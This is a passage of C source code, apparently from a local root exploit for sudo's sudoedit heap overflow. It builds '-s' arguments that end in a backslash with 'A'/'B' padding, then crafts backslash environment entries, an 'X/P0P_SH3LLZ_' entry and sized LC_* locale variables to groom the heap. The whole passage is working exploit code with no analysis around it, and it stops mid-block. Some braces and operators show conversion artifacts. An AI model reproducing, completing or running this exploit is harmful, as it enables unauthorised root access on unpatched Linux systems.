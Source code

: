 ```
    char *smash_b = calloc(target-&gt;smash_len_b + 2, 1);

    memset(smash_a, 'A', target-&gt;smash_len_a);
    memset(smash_b, 'B', target-&gt;smash_len_b);

    smash_a[target-&gt;smash_len_a] = '\\';
    smash_b[target-&gt;smash_len_b] = '\\';

    char *s_argv[]=`{`
        // "sudoedit", "-s", smash_a, "\\", NULL
        // "sudoedit", "-s", smash_a, NULL
        "sudoedit", "-s", smash_a, "\\", smash_b, NULL
    `}`;

    char *s_envp[MAX_ENVP];
    int envp_pos = 0;

    for(int i = 0; i &lt; target-&gt;null_stomp_len; i++) `{`
        s_envp[envp_pos++] = "\\";
    `}`
    s_envp[envp_pos++] = "X/P0P_SH3LLZ_";

    int lc_len = 0x20;
    int lc_num = 0x5;

    int i = 0;
    char *temp=NULL;

    for(i = 11; i &gt; (11 - lc_num); i--)`{`
        temp = calloc(lc_len + strlen(lc_names[i]) + 10, 1);
        strcpy(temp, lc_names[i]);
        strcpy(temp + strlen(lc_names[i]), "=C.UTF-8@");
        memset(temp+strlen(lc_names[i]) + 9, 'A'+i, lc_len);
        s_envp[envp_pos++] = temp;
    `}`
    temp = calloc(target-&gt;lc_all_len + strlen(lc_names[i]) + 10, 1);
    strcpy(temp, lc_names[i]);
    strcpy(temp + strlen(lc_names[i]), "=C.UTF-8@");
    memset(temp+strlen(lc_names[i]) + 9, 'A'+i, target-&gt;lc_all_len);
    s_envp[envp_pos++] = temp;

    i -= 1;
    // temp = calloc(0x60 + strlen(lc_names[i]) + 10, 1);
    // strcpy(temp, lc_names[i]);
    // strcpy(temp + strlen(lc_names[i]), "=C.UTF-8@");
    // memset(temp+strlen(lc_names[i]) + 9, 'A'+i, 0x60);
    // s_envp[envp_pos++] = temp;
    //
    // i -= 1;

    temp = calloc(lc_len + strlen(lc_names[i]) + 10, 1);
    strcpy(temp, lc_names[i]);
    strcpy(temp + strlen(lc_names[i]), "=C.UTF-8@");
    memset(temp+strlen(lc_names[i]) + 9, 'A'+i, lc_len);
    s_envp[envp_pos++] = temp;
    i-=1;

    if (target_idx == 3)`{`
        temp = calloc(0xd0 + strlen(lc_names[i]) + 10, 1);
        strcpy(temp, lc_names[i]);
        strcpy(temp + strlen(lc_names[i]), "=C.UTF-8@");
        memset(temp+strlen(lc_names[i]) + 9, 'A'+i, 0xd0);
        s_envp[envp_pos++] = temp;
```
